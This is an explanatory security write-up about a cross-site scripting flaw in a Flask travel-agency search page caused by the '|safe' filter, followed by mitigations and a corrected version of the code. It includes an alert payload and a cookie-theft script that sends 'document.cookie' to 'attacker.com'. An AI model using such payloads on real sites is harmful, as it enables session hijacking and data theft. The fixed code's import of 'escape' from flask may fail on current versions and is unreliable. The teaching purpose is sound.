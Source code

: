 The provided Flask web application contains a **Cross-Site Scripting (XSS)** vulnerability. This vulnerability allows attackers to execute malicious scripts in the context of users' browsers, potentially leading to session hijacking, defacement, data theft, and other malicious activities.

### **Exploitation of the Vulnerability**

1. **Understanding the Vulnerability:**
   
   - **Dynamic Content Rendering:** The application takes user input from the `search` form field and directly injects it into the HTML template using the Jinja2 templating engine.
   - **Use of `|safe` Filter:** The `|safe` filter in Jinja2 bypasses automatic escaping, rendering the user input as raw HTML. This means any HTML or JavaScript code provided by the user will be executed by the browser.

2. **Step-by-Step Exploitation:**
   
   - **User Interaction:** An attacker submits a malicious payload through the search form. For example, they might enter:
     ```html
     <script>alert('XSS');</script>
     ```
   - **Server Processing:**
     - The Flask app retrieves this input and assigns it to `search_query`.
     - When rendering the template, `{{ search_query|safe }}` inserts the raw input without escaping.
   - **Client-Side Execution:**
     - The browser receives the rendered HTML, which includes the injected `<script>` tag.
     - The browser executes the script, displaying an alert with the message "XSS".
   
   - **Advanced Exploits:**
     - Instead of a simple alert, attackers can inject scripts that steal cookies, redirect users, or perform other malicious actions. For example:
       ```html
       <script>
         fetch('https://attacker.com/steal-cookie?cookie=' + document.cookie);
       </script>
       ```

3. **Impact of the Vulnerability:**
   
   - **Session Hijacking:** Theft of session cookies can allow attackers to impersonate users.
   - **Data Theft:** Access to sensitive user data entered or viewed on the site.
   - **Defacement or Redirection:** Altering website content or redirecting users to malicious sites.
   - **Further Exploitation:** Leveraging the compromised session to perform unauthorized actions on behalf of the user.

### **Best Practices to Prevent Such Vulnerabilities**

1. **Avoid Using `|safe` with User Input:**
   
   - **Automatic Escaping:** Jinja2 automatically escapes variables to prevent XSS. Only use `|safe` when you are certain the content is safe and free from malicious code.
   - **Review Necessity:** Reevaluate if using `|safe` is necessary. Often, proper escaping suffices.

2. **Use `render_template` Instead of `render_template_string`:**
   
   - **Template Files:** Storing templates as separate files can help manage and audit them more effectively.
   - **Reduced Risk:** `render_template_string` can be riskier as it often deals with dynamic strings. Using predefined templates minimizes this risk.

3. **Input Validation and Sanitization:**
   
   - **Whitelist Approach:** Validate user inputs against expected patterns (e.g., allowed characters, input length).
   - **Sanitize Inputs:** Remove or encode potentially harmful characters from user inputs before processing or displaying them.

4. **Content Security Policy (CSP):**
   
   - **Restrict Scripts:** Implement CSP headers to restrict the sources from which scripts can be loaded and executed.
   - **Mitigate XSS:** Even if an XSS vulnerability exists, CSP can limit the impact by preventing unauthorized script execution.

5. **Use Security Libraries and Frameworks:**
   
   - **Flask Extensions:** Utilize extensions like `Flask-SeaSurf` for CSRF protection and others that enhance security.
   - **Regular Updates:** Keep all dependencies and frameworks updated to benefit from security patches and improvements.

6. **Educate and Train Developers:**
   
   - **Secure Coding Practices:** Ensure that developers are aware of common vulnerabilities and how to prevent them.
   - **Code Reviews:** Implement thorough code review processes to catch potential security issues before deployment.

7. **Implement Output Encoding:**
   
   - **Context-Aware Encoding:** Encode output based on where it will be inserted in the HTML (e.g., HTML body, attributes, JavaScript).
   - **Use Trusted Libraries:** Rely on well-established libraries and frameworks that handle encoding correctly.

### **Revised Secure Code Example**

Here's how you can modify the provided Flask application to mitigate the XSS vulnerability:

```python
from flask import Flask, render_template_string, request, escape
app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    search_query = ''
    if request.method == 'POST':
        search_query = request.form.get('search', '')
    template = '''
    <!DOCTYPE html>
    <html>
    <head>
        <title>Global Travels Agency</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css">
    </head>
    <body>
    <!-- Navigation Bar -->
    <nav class="navbar navbar-expand-lg navbar-light bg-light">
      <a class="navbar-brand" href="#">Global Travels Agency</a>
      <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav"
          aria-expanded="false" aria-label="Toggle navigation">
          <span class="navbar-toggler-icon"></span>
      </button>
      <div class="collapse navbar-collapse" id="navbarNav">
          <ul class="navbar-nav mr-auto">
              <li class="nav-item active">
                  <a class="nav-link" href="#">Home <span class="sr-only">(current)</span></a>
              </li>
              <li class="nav-item">
                  <a class="nav-link" href="#">Destinations</a>
              </li>
              <li class="nav-item">
                  <a class="nav-link" href="#">Tours</a>
              </li>
              <li class="nav-item">
                  <a class="nav-link" href="#">Contact Us</a>
              </li>
          </ul>
          <form class="form-inline my-2 my-lg-0" method="POST">
              <input class="form-control mr-sm-2" type="search" placeholder="Search Destinations" aria-label="Search" name="search">
              <button class="btn btn-outline-success my-2 my-sm-0" type="submit">Search</button>
          </form>
      </div>
    </nav>
    <!-- Main Content -->
    <div class="container">
        {% if search_query %}
            <h2>Search Results for "{{ search_query }}"</h2>
            <p>No results found for "{{ search_query }}". Please try again.</p>
        {% else %}
            <div class="jumbotron mt-4">
                <h1 class="display-4">Explore the World with Us!</h1>
                <p class="lead">Discover amazing places at exclusive deals.</p>
                <hr class="my-4">
                <p>Get ready for an unforgettable journey.</p>
                <a class="btn btn-primary btn-lg" href="#" role="button">Learn more</a>
            </div>
        {% endif %}
    </div>
    <!-- Footer -->
    <footer class="footer bg-light text-center">
      <div class="container">
          <span class="text-muted">© 2023 Global Travels Agency. All rights reserved.</span>
      </div>
    </footer>
    <!-- Scripts -->
    <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@4.5.0/dist/js/bootstrap.bundle.min.js"></script>
    </body>
    </html>
    '''
    # Remove the |safe filter to allow Jinja2's automatic escaping
    return render_template_string(template, search_query=search_query)

if __name__ == '__main__':
    app.run(debug=True)
```

### **Key Changes and Security Enhancements**

1. **Removed the `|safe` Filter:**
   
   - By eliminating `|safe`, Jinja2 will automatically escape any HTML or JavaScript content in `search_query`, rendering it harmless.

2. **Automatic Escaping:**
   
   - Jinja2 escapes characters like `<`, `>`, `&`, etc., converting them to their HTML-safe representations (`&lt;`, `&gt;`, `&amp;`, etc.), preventing script execution.

3. **Optional Escaping with `escape()`:**
   
   - If further control is needed, developers can manually escape variables using `escape(search_query)` before passing them to the template.

4. **Use `render_template` with Separate Template Files:**
   
   - For better organization and security, consider storing templates as separate `.html` files and using `render_template` instead of `render_template_string`.

5. **Additional Security Measures:**
   
   - Implement Content Security Policy (CSP) headers.
   - Use HTTPS to encrypt data in transit.
   - Regularly update dependencies to patch known vulnerabilities.

### **Conclusion**

Cross-Site Scripting (XSS) vulnerabilities pose significant security risks to web applications and their users. By understanding how such vulnerabilities arise and implementing robust security practices, developers can safeguard their applications against potential attacks. Always prioritize input validation, proper escaping, and adherence to secure coding standards to maintain the integrity and trustworthiness of your web applications.